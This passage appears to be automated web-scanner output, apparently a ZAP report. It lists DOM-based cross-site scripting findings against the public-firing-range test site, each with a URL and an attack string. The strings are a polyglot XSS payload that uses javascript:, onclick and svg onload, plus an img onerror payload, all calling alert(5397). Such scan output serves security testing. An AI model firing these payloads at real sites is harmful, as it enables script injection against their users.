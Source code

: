   * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/address/location.hash/setTimeout%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/dom/dompropagation%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/dom/dompropagation/%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/dom/eventtriggering/document/formSubmission/innerHtml%3Fname=abc%23%3Cimg%20src=%22random.gif%22%20onerror=alert(5397&29%3E
  * Method: `GET`
  * Parameter: ``
  * Attack: `?name=abc#<img src="random.gif" onerror=alert(5397)>`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/dom/eventtriggering/document/inputTyping/innerHtml%3Fname=abc%23%3Cimg%20src=%22random.gif%22%20onerror=alert(5397&29%3E
  * Method: `GET`
  * Parameter: ``
  * Attack: `?name=abc#<img src="random.gif" onerror=alert(5397)>`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/reflected/parameter/form%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/remoteinclude/object_hash.html%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``